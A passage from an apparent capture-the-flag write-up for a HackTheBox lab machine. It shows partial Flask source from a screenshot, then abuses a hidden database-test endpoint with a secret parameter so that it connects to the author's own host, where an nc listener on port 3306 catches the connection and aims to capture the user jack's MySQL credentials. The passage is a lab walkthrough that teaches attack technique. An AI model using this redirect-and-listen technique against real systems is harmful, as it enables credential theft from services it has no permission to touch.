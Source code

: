 ```
                                                                    
app = Flask(__name__, static_folder="", static_url_path="/static")
                                                                    
def validate_ip(ip):
        try:                                
                if "/" in ip:
                        raise ValueError("Please no netmasks!")
                _ = ipaddress.ip_address(ip)
        except Exception as e:
                return False
        return True

## API START
                                                                    
# NOT FOR PROD USE, USE FOR HEALTHCHECK ON DB
...[snip]...

```

It matches what I already have. I looked for other files like a `.env`, but came up empty.

### Get jack’s Password

#### Get MySQL Hash

The `/api/dbtest` function will try to connect to the MySQL host using these creds:

```

www-data@wordpress:/var/www/html$ curl personal.toby.htb/api/dbtest
mysql: [Warning] Using a password on the command line interface can be insecure.
ERROR 1045 (28000): Access denied for user 'jack'@'172.69.0.104' (using password: YES)

```

It fails, but I do learn the username is jack.

I noted above that the dbtest function should connect somewhere else if I give it a valid IP. I’ll try:

```

www-data@wordpress:/var/www/html$ curl personal.toby.htb/api/dbtest?secretdbtest_09ef=10.10.14.6

```

This hangs, but at `nc` on my host listening on 3306 (MySQL), there’s a connection:

```

oxdf@hacky$ nc -lnvp 3306
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::3306
Ncat: Listening on 0.0.0.0:3306
Ncat: Connection from 10.10.10.140.
Ncat: Connection from 10.10.10.140:44630.

```
